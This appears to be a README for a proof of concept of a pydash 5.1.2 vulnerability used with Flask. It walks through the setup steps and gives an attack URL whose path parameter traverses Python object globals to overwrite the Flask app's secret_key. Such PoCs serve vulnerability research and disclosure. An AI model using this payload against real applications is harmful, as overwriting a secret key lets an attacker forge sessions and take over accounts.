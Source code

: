 
**Instructions for pydash 5.1.2 and flask PoC**

**Prerequisites:** python3.x, pip

* create a python virtualenv if you don't want to taint your python installation with vulnerable packages, for example:
    1. python3 -m venv env
    2. source /env/bin/activate
* install vulnerable packages in the environment
    1. pip install -r requirements.txt 
* run the proof of concept
    1. python3 pydash_poc_5.1.2.py
* run flask proof of concept
    1. flask --debug --app flask_poc.py run
    2. open browser and enter following url: ```http://127.0.0.1:5000/?path=__class__.__init__.__globals__.app.secret_key&val='1337'```
    3. result will be printed in the terminal window running the flask server
